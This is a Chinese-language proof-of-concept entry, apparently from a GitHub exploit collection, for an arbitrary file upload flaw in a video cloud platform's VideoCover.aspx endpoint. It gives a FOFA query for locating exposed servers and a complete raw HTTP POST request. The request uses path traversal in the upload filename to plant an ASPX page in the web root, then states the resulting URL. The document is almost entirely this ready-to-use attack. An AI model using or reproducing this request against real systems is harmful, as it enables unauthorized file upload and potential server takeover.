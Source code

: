 ## 奥威亚视频云平台VideoCover.aspx接口存在任意文件上传漏洞

## fofa
```
body="/Upload/DomainInfo/MaxAVALogo.png"
```

## poc
```
POST /Tools/Video/VideoCover.aspx HTTP/1.1
Host: xxxxx
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insectre-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 1015 7) AppleWebKit/537.36(KHTML, like Gecko) Chrome/107.0.0.0 Safari 537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avifimage/webp,image/apng,*/*;q=0.8,application/signed-exchangev=b3;q=0.9
Accept-Encoding: gzip,deflate
Accept-Language: zh-CN,zh;g=0.9
Cookie: ASP.NET_SessionId=pgfnw0patx4kh0jsnpjgzcmq; PrivateKey=f09020eaf656f9cf5d9292d39c296d1c
Connection: close
Content-Type:multipart/form-data;boundary=----WebKitFormBoundaryVBf7Cs8QWsfwC82M
Content-Length: 294
 
------WebKitFormBoundaryVBf7Cs8QWsfwC82M
Content-Disposition: form-data, name= "file";filename="/../../../AVA.ResourcesPlatform.WebUI/test.aspx"
Content-Type: image/jpeg
 
<%@Page Language="C#"%>
<%
Response.Write("test");
%>
------WebKitFormBoundaryVBf7Cs8QWsfwC82M--
```
![image](https://github.com/wy876/POC/assets/139549762/d0ffa0f8-63dc-44e5-8711-d64d16ce9653)

上传后的路径：http://127.0.0.1/test.aspx


